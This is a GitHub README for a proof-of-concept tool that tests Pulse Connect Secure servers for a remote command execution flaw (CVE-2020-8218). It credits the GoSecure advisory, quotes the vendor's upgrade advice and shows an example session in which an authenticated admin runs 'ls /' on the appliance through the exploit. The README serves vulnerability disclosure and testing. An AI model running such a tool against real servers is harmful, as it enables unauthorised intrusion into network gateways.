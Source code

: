 # pulse-gosecure-rce

```
          _____                    _____                    _____            _____                    _____          
         /\    \                  /\    \                  /\    \          /\    \                  /\    \         
        /::\    \                /::\____\                /::\____\        /::\    \                /::\    \        
       /::::\    \              /:::/    /               /:::/    /       /::::\    \              /::::\    \       
      /::::::\    \            /:::/    /               /:::/    /       /::::::\    \            /::::::\    \      
     /:::/\:::\    \          /:::/    /               /:::/    /       /:::/\:::\    \          /:::/\:::\    \     
    /:::/__\:::\    \        /:::/    /               /:::/    /       /:::/__\:::\    \        /:::/__\:::\    \    
   /::::\   \:::\    \      /:::/    /               /:::/    /        \:::\   \:::\    \      /::::\   \:::\    \   
  /::::::\   \:::\    \    /:::/    /      _____    /:::/    /       ___\:::\   \:::\    \    /::::::\   \:::\    \  
 /:::/\:::\   \:::\____\  /:::/____/      /\    \  /:::/    /       /\   \:::\   \:::\    \  /:::/\:::\   \:::\    \ 
/:::/  \:::\   \:::|    ||:::|    /      /::\____\/:::/____/       /::\   \:::\   \:::\____\/:::/__\:::\   \:::\____\
\::/    \:::\  /:::|____||:::|____\     /:::/    /\:::\    \       \:::\   \:::\   \::/    /\:::\   \:::\   \::/    /
 \/_____/\:::\/:::/    /  \:::\    \   /:::/    /  \:::\    \       \:::\   \:::\   \/____/  \:::\   \:::\   \/____/ 
          \::::::/    /    \:::\    \ /:::/    /    \:::\    \       \:::\   \:::\    \       \:::\   \:::\    \     
           \::::/    /      \:::\    /:::/    /      \:::\    \       \:::\   \:::\____\       \:::\   \:::\____\    
            \::/____/        \:::\__/:::/    /        \:::\    \       \:::\  /:::/    /        \:::\   \::/    /    
             ~~               \::::::::/    /          \:::\    \       \:::\/:::/    /          \:::\   \/____/     
                               \::::::/    /            \:::\    \       \::::::/    /            \:::\    \         
                                \::::/    /              \:::\____\       \::::/    /              \:::\____\        
                                 \::/____/                \::/    /        \::/    /                \::/    /        
                                  ~~                       \/____/          \/____/                  \/____/         
  ```                                                                                                                   

Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218).

This tool was built around the POC from the GoSecure advisory (see refs). All credit to them for the finding.

As recommended by Pulse Secure:
***"The solution for these vulnerabilities is to upgrade the Pulse Connect Secure and Pulse Policy Secure server software version to the 9.1R8. This following PCS/PPS version can be downloaded from https://my.pulsesecure.net."***

Author:
DK @withdk

Refs:
* https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44516/?kA23Z000000L6i5SAC
* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

```
Example usage:
withdk@hogwarts source % python pulse-gosecure-rce.py -u https://192.168.1.120 --user admin --password mypassword
[*] Successfully logged in
(Cmd) ls /
[*] Sending cmd ls /
[*] Sending exploit...
[*] Getting output...
******************************************
2.6.32.358-x86_64
bin
boot
cgroups
data
dev
etc
home
lib
lib64
modules
opt
pkg
proc
runtime
sbin
sys
tmp
usr
va
var
webserver

******************************************
(Cmd) exit
Bye
[*] Getting logout URL
[*] Sending logout URL
[*] Successfully logged out.
```

## Disclaimer
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
